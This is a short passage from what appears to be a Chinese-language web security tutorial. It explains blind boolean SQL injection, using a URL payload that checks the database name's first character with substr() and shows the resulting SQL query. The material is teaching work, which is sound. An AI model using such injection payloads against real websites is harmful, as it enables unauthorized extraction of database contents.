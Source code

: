 ![image.png](../../_img/02-Web安全/01-基础知识/1664333625442-ff42ef74-80a8-4b9b-bd4d-4692b934471c.png)
![image.png](../../_img/02-Web安全/01-基础知识/1664333655259-ad27c19b-fa34-4793-ad81-f7462c0e10a2.png)

**判断当前数据库名称**<br />当我们输入：
```
http://xmtxsec.top/test.php/?id=1' and substr((select database()),1,1)='s'--+
```

实际执行的SQL语句为：
```
select aaa,bbb,ccc from tests where id = '1' and substr((select database()),1,1)='s'
```

**分析：**`id = '1'`为真，紧接着判断数据库名称的第一个字符，等于s是时页面返回正常，不等于等于s时页面返回错误，说明数据库名称的第一个字符为s。